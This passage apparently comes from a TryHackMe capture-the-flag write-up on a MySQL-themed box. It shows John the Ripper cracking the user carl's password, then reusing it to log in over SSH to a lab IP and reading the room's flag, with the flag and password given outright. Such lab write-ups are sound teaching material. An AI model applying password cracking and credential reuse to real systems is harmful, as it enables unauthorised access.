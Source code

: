 ```bash
Warning: Only 2 candidates left, minimum 4 needed for performance.
Proceeding with incremental:ASCII
doggie           (carl)
1g 0:00:00:00 DONE 3/3 (2021-01-07 04:03) 1.492g/s 3412Kp/s 3412Kc/s 3412KC/s doggie..doggin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
It's **doggie**.

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service? What's the contents of MySQL.txt
```bash
$ ssh carl@10.10.39.195                                        

carl@10.10.39.195 password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  7 09:05:03 UTC 2021

  System load:  0.0               Processes:           87
  Usage of /:   41.7% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.39.195
  Swap usage:   0%


23 packages can be updated.
0 updates are security updates.


Last login: Thu Apr 23 12:57:41 2020 from 192.168.1.110
carl@polomysql:~$ ls
MySQL.txt
carl@polomysql:~$ cat MySQL.txt 
THM{congratulations_you_got_the_mySQL_flag}
```
The flag is **THM{congratulations_you_got_the_mySQL_flag}**.